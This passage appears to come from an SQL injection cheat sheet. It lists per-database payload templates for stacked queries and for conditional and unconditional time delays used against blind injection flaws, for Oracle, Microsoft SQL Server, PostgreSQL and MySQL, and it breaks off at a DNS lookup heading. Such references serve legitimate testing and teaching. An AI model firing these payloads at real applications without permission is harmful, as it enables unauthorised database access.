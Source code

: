 ## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|   |   |
|---|---|
|Oracle|`Does not support batched queries.`|
|Microsoft|`QUERY-1-HERE; QUERY-2-HERE   QUERY-1-HERE QUERY-2-HERE`|
|PostgreSQL|`QUERY-1-HERE; QUERY-2-HERE`|
|MySQL|`QUERY-1-HERE; QUERY-2-HERE`|

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|   |   |
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`|

## DNS lookup
